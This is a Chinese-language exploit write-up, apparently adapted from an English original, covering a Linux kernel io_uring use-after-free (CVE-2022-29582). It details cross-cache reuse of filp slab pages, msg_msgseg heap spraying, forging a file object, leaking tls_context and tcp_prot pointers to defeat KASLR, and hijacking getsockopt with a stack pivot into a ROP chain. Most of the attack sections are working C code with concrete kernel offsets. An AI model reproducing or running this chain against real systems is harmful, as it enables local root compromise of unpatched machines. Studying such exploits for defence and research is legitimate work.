1.  我们如何填满一个页面？描述每个页中最大对象数量的内核变量是`objs_per_slab`，它的值可通过sysfs进行访问：`/sys/kernel/slab/filp/objs_per_slab: 25`(我机器上是32)
2.  我们如何知道部分列表允许的最大页数？我们需要在每个页面上释放一个对象，以达到部分列表的最大页数，我们还需要确保目标页上没有多余的对象仍然被分配，同样的方式，我们可以获取`cpu_partial`的值，它是此缓存中能够适合CPU部分列表的最大页数：`/sys/kernel/slab/filp/cpu_partial: 13`

## 方法

(这里我机器上的`objs_per_slab`是32,他这个是25,用的是他的图片,原理是一样的,很多结构体的偏移也不一样,我也没改)

因此，我们知道从用户空间编程方式可以释放一个页面，其机制如下所述，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154452-563e1486-13f5-1.png)

在第1步中，我们保留我们的部分列表页面，它们现在应该是满的，以便稍后调用`put_cpu_partial()`，由于我们想要溢出部分列表，因此我们保留比列表所能容纳的更多的页面，在我们分配了`25x（13 + 1）`个对象之后，有两种可能性，如上图所示，首先，新的活动页是第**14**页，并且是满的，如果在跨缓存之前没有文件在第1页上，则这是可能的，更可能的是第二种情况，即第**15**页是活动页且不满，我们将假设我们处于后一种情况，但是（稍微谨慎一些），步骤相同，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154514-62cc505a-13f5-1.png)

在第2步中，我们分配比每个页最大对象数少1个，即**24**个，现在我们有了一个新的活动页，其中包含**n-1**个已分配对象，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154523-688c3190-13f5-1.png)

好的，第3步我们更熟悉了，我们触发了文件`Use-After-Free`

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154532-6dd8b01a-13f5-1.png)

在第4步中，主要目标是分配足够的对象来获得新的活动页，因此，我们分配了**26**个对象，这意味着我们的目标文件已经重新分配，如果我们不这样做，那么当我们清空目标页时，它将继续作为活动页，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154551-79675b2a-13f5-1.png)

在第5步中，我们释放目标页的所有分配，其中第一个被释放的文件会导致调用`put_cpu_partial()`，因为目标页先前是满的，因此，现在我们已经将目标页放到了部分列表中！

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154601-7f3f4b66-13f5-1.png)

在第6步中，我们为第1步填满的所有页面逐个释放一个对象，因为我们已经在部分列表上保留了一个位置，所以当我们达到限制时，我们将会按预期调用`unfreeze_partials()`！所有页都将进入节点列表，除了我们的目标页，

## 页面重新分配

现在我们已经释放了目标页，下一步是重新分配目标页 - 但是现在是为了不同的高速缓存，由于文件对象接近512字节大小，因此**kmalloc-512**对我们来说是最好的选择，  
但这似乎有点随意，不是吗？为什么不是**kmalloc-1k**或**kmalloc-2k**？简单的答案是我们实际上并没有像我们想象的那么自由（哇），开玩笑的，页面重新分配稍微受到一些限制，我们确实可以将页面重新分配到任何高速缓存中，但也存在一些可能降低可靠性的障碍，以下是对此的简要讨论，

## The buddy allocator

每个高速缓存使用的分配块（**slab**）都具有特定的阶数，阶数描述了在处理请求时连接在一起的页面数，例如，以**kmalloc-4k**为例，仅仅为了新建一个**4096**字节大小的分配块并没有实际意义 - 在我们数到10之前，该缓存将会再次回来，相反，**kmalloc-4k**通常获得2 ^ 3页，此缓存的阶数为3，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154616-884166f4-13f5-1.png)

另一方面，如上所述，文件对象（大小为384）和kmalloc-512对象（大小在256到512之间）位于阶数为1的分配块上，这意味着如果我们释放了**filp**页面，则在尝试重新分配时直接针对阶数为1的列表可能更容易，如果我们操纵伙伴分配算法以拆分更高订单块，则可以避开此限制（请参见附录），但是我们选择了**kmalloc-512**

## 重新分配为msg\_msgseg，

现在我们进入了最后阶段，为了将页面重新分配给**kmalloc-512**，我们实际上将尝试使用`msg_msgseg`的内容覆盖文件，我们可以使用通常称为堆喷射（heap spraying）的方法来完成这个过程（也称为对`msgsnd()`进行垃圾邮件轰炸），还有其他喷射堆的方法 - 即使用密钥环、套接字消息或扩展属性，但**System V IPC API**是一种经过验证且易于使用的技术，  
在我们第一次查看攻击代码时，我们到了这里：

```plain
static inline err_t reallocate_filp_page(struct manager *mgr)
{
    IF_ERR_RET(spray_msg(mgr->msq_ids, TOTAL_MSGS, mgr->spray, MSG_SIZE))
    memset((char *)mgr->spray, 0x00, MSG_SIZE);
    return SUCC;
}

err_t spray_msg(uint64_t *store, uint32_t amount, char *data, uint64_t size)
{
    int32_t ret = 0;
    struct msgb* msg = (struct msgb*)data;

    for (uint32_t i = 0; i < amount; i++) {
        msg->mtype = i + 1;
        ret = msgsnd(store[i], msg, size, 0);
        IF_ERR(ret) {
            perror("spray_msg:msgsnd");
            return ERR;
        }
    }

    return SUCC;
}
```

对于我们来说，**TOTAL\_MSGS**为9999，**MSG\_SIZE**为4500，前者可能有点过多，但最好小心谨慎，后者需要一些解释，  
因为我们的目标是**kmalloc-512**高速缓存，所以我们需要分配大小在256到512之间的对象，那么为什么是4500呢？当我们使用**SystemV IPC**消息协议时，每个单独的消息可能会根据其大小被拆分成较小的消息，消息的第一部分限制为4096 - 48字节：具有**msg\_msg**元数据标头的页面大小，但如果我们的消息超过了这个限制，那么我们将首先得到一个单独的**msg\_msg**，然后再根据需要使用多少个**msg\_msgseg**来满足请求，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154639-957a998a-13f5-1.png)

现在，我们可以将**MSG\_SIZE**设为512-48，但问题是那里有48字节的标头，而我们无法控制它，因此，在那里初始化的数据可能以奇怪和古怪的方式影响控制流 - 远远超出普通人的理解范围，因此，我们将坚持备选方案：使用具有8字节标头的`msg_msgseg`，因此，将一个4500字节的消息分成两部分，  
在将`msg_msgseg`对象垃圾邮件喷射到堆中之后，最终旧的filp页面将被重新分配给**kmalloc-512**，这并不是100％可靠的，但当它奏效时，它真的奏效，

## msg\_msgseg use-after-free

所以，有些消息，我们将触发第三个`Use-After-Free`，这太疯狂了！又来一个？为什么？！  
嗯，除非我们在一个意识形态上反对KASLR派系主义的系统上，或者我们有通灵之能，可以用心灵触碰内核基地址，否则我们首先需要一个信息泄漏（或侧信道攻击），然后才能将正确定义的对象写入堆中，  
为了获得泄漏，我们需要用另一种类型的对象覆盖`msg_msgseg`，然后，我们可以使用`msgrcv()`接收消息，一旦我们在用户空间缓冲区中收到了**msg**，我们将读取覆盖的对象数据并使用它来计算内核基地址，因此，我们希望我们正在泄漏的对象包含指向内核镜像只读部分的指针，但首先，我们需要再次释放文件，

## Freeing the file

回想一下我们的页面`Use-After-Free`意味着什么：我们可以像那些数据组成了文件对象一样使用当前在此页面上的数据，如何实现？我们在用户空间有一个文件描述符，它关联的文件现在由于跨高速缓存而成为`msg_msgseg`的一部分，  
我们的第一反应可能是调用close(fd)，既然这是文件的最后一个实际引用，关闭操作应该释放它（再次），但是我们在`close()`实现中注意到了一些非常令人不安的事情，这需要我们颤抖着双手，在额头上冒出汗水，悲痛地坐在椅子上，并质疑自己的人生选择：

```plain
int filp_close(struct file *filp, fl_owner_t id)
{
    int retval = 0;

    if (!file_count(filp)) {
        printk(KERN_ERR "VFS: Close: file count is 0\n");
        return 0;
    }

    if (filp->f_op->flush)
        retval = filp->f_op->flush(filp, id);

    if (likely(!(filp->f_mode & FMODE_PATH))) {
        dnotify_flush(filp, id);
        locks_remove_posix(filp, id);
    }
    fput(filp);
    return retval;
}
```

正如我们所看到的，用全NULL覆盖文件对象会遇到三个障碍：

*   `file_count(filp)`将返回引用计数：0，从而导致`filp_close()`过早返回，
*   即使我们通过了第一个障碍，`filp->f_op`将为NULL，因此在检查是否定义了`flush()`时，我们会导致内核崩溃，
*   最后，我们可能希望减少升级到`Use-After-Free`的复杂性，因此，我们希望在`filp->f_mode`中设置FMODE\_PATH，  
    在这三个障碍中，将引用计数设置为1并将模式设置为`FMODE_PATH`很容易，我们只需要相对于覆盖我们的`msg_msgseg`的位置计算出文件中这些字段的偏移量，然后写入它们，但是确保`filp->f_op`被定义且`filp->f_op->flush`未定义需要更精细的技巧，这里的最小要求是我们有一个有效的内核指针用来替代`f_op`，此外，我们需要`flush()`为NULL，这意味着`f_op + 0x70`必须为NULL

```plain
/* We write this pointer to file->f_op so that f_op->flush == NULL.
 * This address and its contents are invariant across boots. */
#define NULL_MEM (0xfffffe0000002000)
```

尽管使用了KASLR和堆偏移随机化，但我们仍使用已知的固定地址，该地址在目标内核的所有执行期间都满足我们的需求，

```plain
static inline void set_file_spray_data(struct manager* mgr)
{

    /* Construct a fuzzy file object */
#define F_OP_OFF (88)
#define REF_OFF (128)
#define F_MODE_OFF (140)
#define MSGSEG_OFF (4000)

    memset((char *)mgr->spray, 0, MSG_SIZE);

    char *file_contents = (char *) mgr->spray + MSGSEG_OFF;
    uint8_t *f_op = file_contents + F_OP_OFF;
    uint8_t *refcount = file_contents + REF_OFF;
    uint8_t *f_mode = file_contents + F_MODE_OFF;

    *(uint64_t *) f_op = NULL_MEM;
    *(uint64_t *) refcount = 1;
    *(uint64_t *) f_mode = 0x4000;
}
```

因此，为了至少营造一个有效的文件对象的假象，我们准备好文件字段，如上所述，并像之前看到的那样将虚假的文件对象喷射到堆中，

```plain
static inline err_t double_free_file(struct manager *mgr, int32_t *hits)
{
    for (int i = 0; i < hits[N_PIPES]; i++) {
        int p_idx = hits[i];
        int in = mgr->pipes_in[p_idx][RD];
        close(in);
    }
    return SUCC;
}
```

我们能够再次释放该文件，导致`msg_msgseg` `Use-After-Free`，文件对象返回到**slab**中，通过从其来时的页解决，以分配给**kmalloc-512**  
这意味着我们需要找到另一种对象来覆盖可悬空的`msg_msgseg`，此对象应具有内核只读部分指针，并且必须来自**kmalloc-512**高速缓存（以捕获`msg_msgseg`），

## tls\_context

经过基于测试和验证假设的科学方法（即通过列出大小在257到512字节之间的对象列表），我们找到了一个候选类型，即`tls_context`

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154713-a9d14bcc-13f5-1.png)

如上所示，我们有一个`list_head`，其next和prev字段将指向它们自己的地址，通过从`list.next`中减去0x98，我们可以得到`tls_context`对象的地址，  
更好的是，每个`tls_context`都有一个指向`tcp_prot`的`proto`指针，该对象有两个惊人的特性，首先，它的地址是相对于内核基址的常量偏移量，因此，读取字段`sk_proto == &tcp_prot`，就意味着绕过了KASLR，此外，它有一堆函数指针，因此，如果我们能伪造一个虚假的`proto`对象，那么我们就拥有任意代码执行的主要成分，正如我们从图表中猜到的那样，我们将具体定位于`getsockopt()`

## 重新分配为tls\_context类型

```plain
socket(AF_INET, SOCK_STREAM, 0);
```

为了在内核堆中喷出tls\_context对象，从而覆盖我们的悬空的msg\_msgseg，我们像上面一样预先准备了一堆套接字，

```plain
struct sockaddr_in server;
inet_aton("127.0.0.1", &server.sin_addr);
server.sin_port = htons(9999);
server.sin_family = AF_INET;
if (connect(fd, (struct sockaddr*)&server, sizeof(server))) {
    perror("connect");
    return ERR;
}
tls_fds[i] = fd;
We connect each new socket to a local server.

int fd = tls_fds[i];
// struct tls_context allocation in kmalloc-512
if (setsockopt(fd, SOL_TCP, TCP_ULP, "tls", sizeof("tls"))) {
    perror("setsockopt(fd, SOL_TCP, TCP_ULP, \"tls\"");
    printf("fd: %d\n", fd);
    return ERR_UNFIN(i);
};
```

然后，在准备好的时候（在所有前面的利用阶段之后），我们升级这些已连接的套接字，并在此过程中为每个套接字分配一个`tls_context`

## Leaking tls\_context

```plain
static inline err_t leak_tls_contexts(struct manager *mgr)
{
    char *leak = (char *)mgr->leak;
    uint64_t *store = mgr->msq_ids;
    IF_ERR_RET(leak_msg(DEAD_LIST_PATTERN, store, TOTAL_MSGS, leak, MSG_SIZE))
    print_leak(leak);
    return SUCC;
}
```

现在，我们的一个消息包含了`tls_context`对象，我们可以尝试在一些消息中找到`DEAD_LIST_PATTERN`，该消息的ID存储在**mgr->msq\_ids**中，其内容将被输出到**mgr->leak**，重要的是，接收消息将释放它，因此，现在我们有了一个`tls_context` `Use-After-Free`（哈哈），

## 覆盖tls\_context对象

```plain
static inline err_t prepare_tls_overwrite(struct manager *mgr)
{
#define KHEAP_PTR_OFF (200)
#define RO_PTR_OFF (224)
#define LIST_OFF (0x98)
#define BASE_OFF (0x180b660)
#define MSGSEG_OFF (4000)    
    /* Extract pointers and wipe the data, ready for spray. */
    char *leak = (char *)mgr->leak + MSGSEG_OFF;
    uint64_t tls_context = *(uint64_t*)&leak[KHEAP_PTR_OFF] - LIST_OFF;
    uint64_t kernel_base = *(uint64_t*)&leak[RO_PTR_OFF] - BASE_OFF;
    printf("[+] Current tls_context @ %lx\n", tls_context);
    printf("[+] Kernel base @ %lx\n", kernel_base);
    memset((char *)mgr->leak, 0, MSG_SIZE);

#define GETSOCKOPT_OFF (40)
#define SK_PROTO_OFF (136)
    /* Prepare sk_proto overwrite, getsockopt() overwrite,
     * stack pivot, and ROP chain contents. */
    char *spray = (char *)mgr->spray;
    prepare_rop(&spray[8], kernel_base);
    *(uint64_t*)&spray[GETSOCKOPT_OFF] = kernel_base + STACK_PIVOT_OFF;;
    *(uint64_t*)&spray[SK_PROTO_OFF] = tls_context;

    ...

    return SUCC;
}
```

最后，我们提取出所有需要的信息，计算我们要用来覆盖`tls_context`对象的数据，为了更详细地说明此函数，我们分为两个阶段：

*   泄漏`tls_context`数据:
    *   `tls_context`列表头的next指针地址，这使我们能够通过从`list.next`中减去0x98来计算`tls_context`的地址，
    *   存储在`sk_proto`中的`tcp_prot`地址，这允许我们通过从`&tcp_prot`中减去0x180b660来计算内核基地址，
*   准备伪造的tls\_context数据：
    *   为了使用一组ROP小工具覆盖`tls_context`的一部分，
    *   覆盖`sk_proto`为`tls_context`地址，因此，现在`tls_context`对象的一部分包含了我们的虚假`proto`对象，
    *   使用一个栈旋转小工具的地址覆盖`sk_proto->getsockopt()`，请记住，由于某种魔法，`sk_proto == &tls_context`，虚假栈将从`tls_context`对象内部开始，具体来说就是我们编写ROP链的地方，  
        然后，我们将用我们的虚假`tls_context`重新分配以前被释放的`msg_msgseg`

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154734-b6775c72-13f5-1.png)

正如我们所看到的，`tls_context`对象扮演了多个角色，它部分地是一个实现我们的堆栈旋转`getsockopt()`的虚假`proto`对象，它还部分地是一个虚假的堆栈，其中包含ROP链，

## 代码执行

谜题的最后一部分是触发栈迁移，我们知道在一个幸运的套接字上调用具有幸运的`tls_context`的`getsockopt()`将运行栈迁移代码，

```plain
err_t run_machine(struct manager *mgr)
{
    char *spray = mgr->spray;
    uint64_t tls_context = *(uint64_t*)&spray[SK_PROTO_OFF];
    uint64_t pivot_stack = tls_context + 0x20;

    /* Transfer control inside child task */
    if (!fork()) {
        /* Hopefully run along the ROP chain */
        puts("[+] Calling getsockopt() to trigger execution.");
        getsockopt_all_tls(0x41414141, 0x42424242,
                           pivot_stack, 0x8181818181818181);
    }
    /* Busyloop to prevent exit. */
    for (;;);
    __builtin_unreachable();
}

err_t getsockopt_all_tls(int level, int name, void *value, void* len)
{
    for (int i = 0; i < N_TLS_FDS; ++i) {
        IF_ERR(tls_fds[i]) {
            perror("getsockopt_all_tls:fd=-1");
            return ERR;
        }
        getsockopt(tls_fds[i], level, name, value, len);
    }
    return SUCC;
}
```

根据目标机器上的调用约定，我们可以通过`getsockopt()`函数的**value**参数来控制**RCX**寄存器的所有字节，我们的堆栈转移工具（即取代目标函数`getsockopt()`的代码），会将RCX中的值（即`tls_context + 0x20`）移动到**RSP**中（以此使用假的堆栈），然后返回地址，ROP链位于**tls\_context + 0x20**处，开始执行，

# 参考链接

[CVE-2022-29582](https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/)  
[【Exploit trick】利用poll\_list对象构造kmalloc-32任意释放 (corCTF 2022-CoRJail)](https://blog.csdn.net/panhewu9919/article/details/127804902?spm=1001.2014.3001.5501)(我rop链参考的这个,应该可以更简单些,懒得搞了)  
[\[linux kernel\]slub内存管理分析(7) MEMCG的影响与绕过](https://blog.csdn.net/Breeze_CAT/article/details/130015930?spm=1001.2014.3001.5501)
